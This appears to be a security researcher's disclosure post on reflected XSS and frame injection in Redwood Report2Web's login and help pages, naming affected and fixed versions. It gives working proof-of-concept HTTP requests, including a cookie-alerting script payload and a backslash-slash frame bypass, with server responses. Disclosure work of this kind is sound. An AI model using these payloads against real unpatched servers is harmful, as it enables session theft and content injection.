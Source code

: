 ```yaml
---
layout: post
title: Redwood Report2Web XSS and Frame injection
categories: cve
---
```


## Report2Web Login Panel XSS
[Report2Web](https://www.redwood.com/report-distribution) v4.3.4.5 and v4.5.3 are vulnerable to XSS. v4.3.4.5 is also vulnerable to frame injection. Both issues are fixed in v4.6.0. 
The value of the `urll` parameter is getting reflected without an sanitization, allowing a remote attacker to inject javascript code to the victim's browser.

Request:
```
GET /r2w/singIn.do?urll=%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=F291E04B316ED2DF72623ACEA8D952CA; r2wctg=3
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

Response:
```
...
<form name="form" action="signIn.do" method="post" onsubmit="return handleSubmit(this);">
 <input type="hidden" name="id" value="" />
 <input type="hidden" name="language" value="en" />
 <input type="hidden" name="urll" value=""><script>alert(1)</script>" />
 
<div class="outer">
...
```

## Report2Web Online Help Frame Injection
The `turl` parameter takes a local path as input and diplays it's content inside a frame, e.g. `?turl=/local/path/doc.html`. You can bypass the protection by using `\/hostname.tld` which the browser translates to `//hostname.tld` and then to `https://example.com`, loading a malicious website inside the frame, leading to vulnerabilities like content injection and XSS.

Request:
```
GET /r2w/help/Online_Help/NetHelp/default.htm?turl=\/example.com HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

Response:
```
...
<frame id="right" name="right" title="Topic text" src="\/example.com">
...
```